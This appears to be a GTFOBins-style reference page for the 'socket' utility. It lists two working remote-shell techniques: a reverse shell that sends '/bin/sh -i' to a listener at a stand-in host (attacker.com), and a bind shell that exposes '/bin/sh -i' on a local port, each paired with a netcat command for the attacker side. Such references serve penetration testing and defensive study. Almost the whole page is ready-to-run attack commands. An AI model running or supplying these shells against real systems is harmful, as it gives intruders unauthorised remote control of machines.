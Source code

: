 # GTFOBin: socket

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
RHOST=attacker.com
RPORT=12345
socket -qvp '/bin/sh -i' $RHOST $RPORT
```

## Bind shell

It can bind a shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell.

```
LPORT=12345
socket -svp '/bin/sh -i' $LPORT
```